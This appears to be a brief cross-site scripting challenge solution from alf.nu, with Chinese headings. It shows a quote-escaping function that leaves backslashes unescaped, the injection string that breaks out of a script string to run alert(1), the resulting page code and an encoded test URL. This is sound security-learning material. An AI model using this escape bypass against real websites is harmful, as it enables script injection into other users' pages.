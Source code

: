 ```php
// from alf.nu
function escape (s) {
  s = s.replace(/"/g, '\\"')
  return '<script>console.log("' + s + '");</script>'
}
```

- 插入代码

```html
\");alert(1)//
```

- 网页代码

```html
<script>console.log("\\");alert(1)//");</script>
```

- URL

```url
http://xss.test/?input=%5C%22)%3Balert(1)%2F%2F
```




